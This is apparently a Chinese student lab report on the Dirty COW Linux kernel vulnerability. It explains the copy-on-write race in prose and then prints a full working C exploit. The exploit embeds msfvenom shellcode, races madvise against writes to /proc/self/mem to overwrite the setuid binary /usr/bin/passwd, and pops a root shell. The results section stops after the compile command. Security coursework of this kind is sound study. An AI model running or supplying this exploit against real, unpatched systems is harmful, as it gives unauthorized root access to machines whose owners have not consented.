

# Exp 4 利用Dirty COW攻击操作系统

赵子瑞 PB14000296
王子博 PB15061276

## 1. 漏洞介绍  

Dirty COW是一个自Linux内核2.6.22以来就一直存在的一个漏洞, 这个漏洞在2016年的十月份才被发现, 在内核4.4.26及以上的版本中已经被修复. 这个漏洞会影响所有的基于Linux内核的系统, 比如在Android 7即一下的系统, 都被证实可以通过这个漏洞来获得root权限.

这个漏洞的原理是利用多线程写时复制(COW)时的竞争来允许用户对其本来没有足够的权限的文件进行更改. 当有两个线程或者进程去访问同一个文件的时候, 会有一定概率触发一个竞争条件, 这种时候, 在内存被拷贝之前就有一定概率被标记为可以写入, 这样就可以利用这个标记来修改一些原本无法修改的文件.

## 2. PoC

### a. 关键代码解析

```c
map = mmap(NULL,st.st_size,PROT_READ,MAP_PRIVATE,f,0);
```

在攻击之前, 先创建好一个内存映射文件, 其具有读属性, 并且为私有的COW映射.

```c
void* procselfmemThread(void *arg) {
    char *str;
    str = (char*)arg;
    int f = open("/proc/self/mem", O_RDWR);
    int i, c = 0;
    for(i = 0; i < 1000000 && !stop; i++) {
        lseek(f, map, SEEK_SET);
        c += write(f, str, sc_len);
    }
    printf("thread stopped\n");
}
```

上面这个函数的用途是试图去修改一个被映射到内存的文件, 其在确认修改成功之前会不停地尝试进行修改, 而下面的函数中是另一个用来和写入线程相互竞争的线程, 其核心函数就是madvise, 其用途是告诉内核一些关于内存处理的"提示", 比如这里MADV_DONTNEED, 含义是这些内存在短时间内不会再被访问, 系统可以回收这一块资源.所以程序中总共有两个线程, 第一个线程的作用是试图写入该文件, 这会产生一次COW, 并且随后又会被另外一个线程将这一块内存的拷贝删除, 双方就会往复地进行, 线程1试图写入, 系统就会为其创建一个新的内存的拷贝, 而线程2又将其释放, 当两者交替进行操作的时候, 就有可能一次COW还未被系统释放就被再次写入, 在一些条件下会导致其之间写道原内存上, 这样就达到了对无法写的内存进行读写的操作.

```c
void* madviseThread(void *arg) {
    char *str;
    str = (char*)arg;
    int i, c = 0;
    for(i = 0; i < 1000000 && !stop; i++) {
        c += madvise(map, 100, MADV_DONTNEED);
    }
    printf("thread stopped\n");
}
```

由于可以对不可以写入的内存进行写入, 所以可以通过这种方式去修改passwd文件去获得root权限. 完整代码如下

### b. 源代码

```c
#include <stdio.h>
#include <stdlib.h>
#include <sys/mman.h>
#include <fcntl.h>
#include <pthread.h>
#include <string.h>
#include <unistd.h>

void *map;
int f;
int stop = 0;
struct stat st;
char *name;
pthread_t pth1,pth2,pth3;

// change if no permissions to read
char suid_binary[] = "/usr/bin/passwd";

/*
* $ msfvenom -p linux/x64/exec CMD=/bin/bash PrependSetuid=True -f elf | xxd -i
*/ 
unsigned char sc[] = {
  0x7f, 0x45, 0x4c, 0x46, 0x02, 0x01, 0x01, 0x00, 0x00, 0x00, 0x00, 0x00,
  0x00, 0x00, 0x00, 0x00, 0x02, 0x00, 0x3e, 0x00, 0x01, 0x00, 0x00, 0x00,
  0x78, 0x00, 0x40, 0x00, 0x00, 0x00, 0x00, 0x00, 0x40, 0x00, 0x00, 0x00,
  0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
  0x00, 0x00, 0x00, 0x00, 0x40, 0x00, 0x38, 0x00, 0x01, 0x00, 0x00, 0x00,
  0x00, 0x00, 0x00, 0x00, 0x01, 0x00, 0x00, 0x00, 0x07, 0x00, 0x00, 0x00,
  0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x40, 0x00,
  0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x40, 0x00, 0x00, 0x00, 0x00, 0x00,
  0xb1, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0xea, 0x00, 0x00, 0x00,
  0x00, 0x00, 0x00, 0x00, 0x00, 0x10, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
  0x48, 0x31, 0xff, 0x6a, 0x69, 0x58, 0x0f, 0x05, 0x6a, 0x3b, 0x58, 0x99,
  0x48, 0xbb, 0x2f, 0x62, 0x69, 0x6e, 0x2f, 0x73, 0x68, 0x00, 0x53, 0x48,
  0x89, 0xe7, 0x68, 0x2d, 0x63, 0x00, 0x00, 0x48, 0x89, 0xe6, 0x52, 0xe8,
  0x0a, 0x00, 0x00, 0x00, 0x2f, 0x62, 0x69, 0x6e, 0x2f, 0x62, 0x61, 0x73,
  0x68, 0x00, 0x56, 0x57, 0x48, 0x89, 0xe6, 0x0f, 0x05
};

unsigned int sc_len = 177;


void *madviseThread(void *arg) {
    char *str;
    str = (char*)arg;
    int i, c = 0;
    for(i = 0; i < 1000000 && !stop; i++) {
        c += madvise(map, 100, MADV_DONTNEED);
    }
    printf("thread stopped\n");
}

void *procselfmemThread(void *arg) {
    char *str;
    str = (char*)arg;
    int f = open("/proc/self/mem",O_RDWR);
    int i, c = 0;
    for(i = 0; i < 1000000 && !stop; i++) {
        lseek(f, map, SEEK_SET);
        c += write(f, str, sc_len);
    }
    printf("thread stopped\n");
}

void *waitForWrite(void *arg) {
    char buf[sc_len];

    for(;;) {
        FILE *fp = fopen(suid_binary, "rb");

        fread(buf, sc_len, 1, fp);

        if(memcmp(buf, sc, sc_len) == 0) {
            printf("%s overwritten\n", suid_binary);
            break;
        }

        fclose(fp);
        sleep(1);
    }

    stop = 1;

    printf("Popping root shell.\n");
    printf("Don't forget to restore /tmp/bak\n");

    system(suid_binary);
}

int main(int argc,char *argv[]) {
    char *backup;

    printf("DirtyCow root privilege escalation\n");
    printf("Backing up %s to /tmp/bak\n", suid_binary);

    asprintf(&backup, "cp %s /tmp/bak", suid_binary);
    system(backup);

    f = open(suid_binary, O_RDONLY);
    fstat(f, &st);

    printf("Size of binary: %d\n", st.st_size);

    char payload[st.st_size];
    memset(payload, 0x90, st.st_size);
    memcpy(payload, sc, sc_len + 1);

    map = mmap(NULL, st.st_size, PROT_READ, MAP_PRIVATE, f, 0);

    printf("Racing, this may take a while..\n");

    pthread_create(&pth1, NULL, &madviseThread, suid_binary);
    pthread_create(&pth2, NULL, &procselfmemThread, payload);
    pthread_create(&pth3, NULL, &waitForWrite, NULL);

    pthread_join(pth3, NULL);

    return 0;
}
```

## 3. 实验结果

编译代码:

```shell
/run.sh
```

在科大云的环境(Linux version 3.2.0-4-amd64, debian 7.x)中, 去运行程序, 可以得到如下结果:


